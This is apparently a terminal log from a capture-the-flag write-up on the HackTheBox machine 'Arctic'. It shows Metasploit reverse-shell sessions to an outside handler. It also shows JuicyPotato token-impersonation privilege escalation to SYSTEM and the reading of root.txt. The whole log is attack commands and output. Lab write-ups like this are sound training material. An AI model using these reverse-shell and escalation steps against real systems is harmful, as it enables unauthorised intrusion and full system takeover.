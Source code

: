 ```powershell
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
C:\users\tolis\downloads>exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.14:443 
msf6 exploit(multi/handler) > sessions -i 2 
[*] Starting interaction with 2...

meterpreter > shell
Process 3712 created.
Channel 14 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\users\tolis\downloads>juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
Testing {F087771F-D74F-4C1A-BB8A-E16ACA9124EA} 9001
....
[+] authresult 0
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

[*] Sending stage (175174 bytes) to 10.10.10.11

C:\users\tolis\downloads>[*] Meterpreter session 3 opened (10.10.14.14:443 -> 10.10.10.11:50256) at 2021-04-21 18:35:50 -0400
C:\users\tolis\downloads>exit
exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x86/windows  ARCTIC\tolis @ ARCTIC         10.10.14.14:443 -> 10.10.10.11:50238 (10.10.10.11)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ARCTIC  10.10.14.14:443 -> 10.10.10.11:50256 (10.10.10.11)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 668 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
arctic
```